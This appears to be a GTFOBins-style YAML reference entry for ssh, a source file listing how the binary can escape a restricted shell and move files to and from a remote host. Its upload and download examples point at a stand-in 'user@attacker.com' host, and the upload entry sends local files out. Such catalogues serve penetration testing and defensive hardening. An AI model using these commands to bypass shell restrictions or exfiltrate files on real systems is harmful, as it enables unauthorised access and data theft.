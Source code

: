 ```yaml
---
functions:
  execute-interactive:
    - description: Reconnecting may help bypassing restricted shells.
      code: ssh localhost /bin/bash --noprofile --norc
  download:
    - description: Fetch a remote file from a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=file_to_get
        LPATH=where_to_save
        ssh $HOST "cat $RPATH" > $LPATH
  upload:
    - description: Send local file to a SSH server.
      code: |
        HOST=user@attacker.com
        RPATH=where_to_save
        LPATH=file_to_send
        ssh $HOST "cat > $RPATH" < $LPATH
---
```

